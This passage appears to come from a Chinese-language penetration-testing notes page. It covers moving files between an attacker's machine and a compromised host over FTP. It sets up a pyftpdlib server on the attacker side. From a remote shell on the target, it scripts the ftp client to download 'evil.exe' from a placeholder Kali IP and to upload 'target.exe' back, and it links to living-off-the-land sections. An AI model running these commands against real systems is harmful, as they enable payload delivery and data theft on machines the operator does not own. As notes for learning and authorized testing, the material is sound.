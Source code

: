     攻击端使用 python 起 ftp:
    ```
    pip3 install pyftpdlib
    cd /tmp
    python3 -m pyftpdlib -p 8888
    ```
    此时目标机连接的时候,用户名为 anonymous,密码随意

- **目标机**
    目标机的远程 shell 上运行
    ```bash
    echo open <kali-ip> 21> ftp.txt
    echo username>> ftp.txt
    echo password>> ftp.txt
    echo bin >> ftp.txt
    echo GET evil.exe >> ftp.txt
    echo bye >> ftp.txt
    ftp -s:ftp.txt
    ```

    目标机上传文件(连接状态):
    ```bash
    ftp> put target.exe(如果是 windows 且文件在其他盘,需使用绝对路径)
    ```

    关闭 ftp:
    ```bash
    /etc/init.d/pure-ftpd stop
    ```

    windows下
    ```
    ftp
    username
    password
    get file
    exit 或者 bye
    ```
    ```
    ftp -s:test.txt
    ```

### Linux lol

- [Linux LOL](../OS安全/Linux安全.md#lol)

### Win lol

- [Windows LOL](../OS安全/Windows安全.md#lol)

---

## 隐匿技术

